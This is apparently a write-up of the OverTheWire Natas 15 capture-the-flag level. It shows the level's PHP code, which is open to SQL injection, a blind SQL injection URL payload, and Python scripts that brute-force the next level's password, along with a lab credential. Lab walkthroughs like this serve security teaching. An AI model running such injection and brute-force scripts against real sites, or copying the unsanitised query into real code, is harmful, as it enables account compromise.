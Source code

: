 ## NATAS 15

![natas15](natas15.png)

NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.

At first glance, it doesn't appear that there is much you can do even if your SQL injections were successful because the script doesn't echo the query results back to the client.

However, there are two subtle hints that we're meant to pay attention to.  First, we're given the structure of the users table.  The users table has two columns: username, and password - and they both accept a maximum of 64 characters.  Coincidentally, we need a username and password to get to the next challenge.  Second, since the username input isn't sanitized, when we perform a SQL injection, the page will at least confirm whether our SQL query returns a row in the database.

This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.

![username_natas16](username_natas16.png)

Conveniently for us, natas16 is a valid username.

![username_exists](username_exists.png)

Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.

First, instead of asking mysql if the password = 'string_value', which will return true if there is an exact match in the database, the LIKE keyword will perform a string comparison on a per-character basis.  You can check out the documentation here: https://dev.mysql.com/doc/refman/5.0/en/string-comparison-functions.html

Second, since we don't know the collation of the password field, and we want to ensure our string comparisons are case-sensitive, we can use the BINARY keyword to force a case-sensitive comparison.  More information on this keyword is available in the documentation here:
https://dev.mysql.com/doc/refman/5.0/en/charset-binary-op.html

Finally, MySQL allows the use of wildcards in your string comparisons.  This will allow us to essentially ask the database if username natas16 has a password that contains a given character anywhere in the string.

So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.

The SQL Query will look something like this:
```mysql
SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
```

You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
```mysql
http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
```

but that's going to take a long time, and we all value our problem.  Instead, I wrote a python script to do it for me.

```python
#!/bin/python
import requests,string

url = "http://natas15.natas.labs.overthewire.org"
auth_username = "natas15"
auth_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

# characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
characters = ''.join([string.ascii_letters,string.digits])

# Begin by building a dictionary of characters found in the password
# This will greatly decrease the complexity for our brute force attempts
password_dictionary = []
exists_str = "This user exists."
for char in characters:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(auth_username,auth_password))
    if exists_str in r.text:
        password_dictionary.append(char)
        print("Password Dictionary: {0}").format(''.join(password_dictionary))
print("Dictionary build complete.")
print("Dictionary: {0}").format(''.join(password_dictionary))
```

This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.

Now, we'll take that list and start guessing the password:

```python
# Given the dictionary of characters we just built, we'll try each character in that list
print("Now attempting to brute force...")
password_list = []
password = ''
for i in range(1,64):
    for char in password_dictionary:
        test = ''.join([password,char])
        # Build the GET Request
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',test,'%','&debug'])
        # Send the HTTP GET request to the server
        r = requests.get(uri, auth=(auth_username,auth_password))
        # Parse the HTTP response
        if exists_str in r.text:
            password_list.append(char)
            password = ''.join(password_list)
            print("Length: {0}, Password: {1}").format(len(password),password)
```
![brute_force](brute_force.png)

And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
